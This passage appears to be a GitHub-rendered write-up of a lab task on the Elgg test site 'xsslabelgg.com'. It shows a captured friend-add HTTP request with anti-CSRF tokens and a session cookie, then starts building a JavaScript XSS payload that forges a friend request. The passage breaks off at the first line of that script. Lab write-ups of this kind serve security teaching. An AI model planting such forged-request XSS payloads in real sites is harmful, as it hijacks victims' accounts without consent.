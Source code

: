 <h1 dir="auto"><a id="user-content-task-4" class="anchor" aria-hidden="true" href="#task-4"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Task 4</h1>
<p dir="auto">Try to log in as <code>alice</code> and add <code>samy</code> as a friend, during the process, <code>network</code> tool captures the request:</p>
<p dir="auto">HTTP header:</p>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre><code>Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&amp;__elgg_ts=1589608177&amp;__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">So construct the payload that forges the user's friend request as:</p>
<div class="highlight highlight-text-html-basic position-relative overflow-auto"><pre><span class="pl-kos">&lt;</span><span class="pl-ent">script</span> <span class="pl-c1">type</span>="<span class="pl-s">text/javascript</span>"<span class="pl-kos">&gt;</span>
  <span class="pl-smi">window</span><span class="pl-kos">.</span><span class="pl-en">onload</span> <span class="pl-c1">=</span> <span class="pl-k">function</span> <span class="pl-kos">(</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>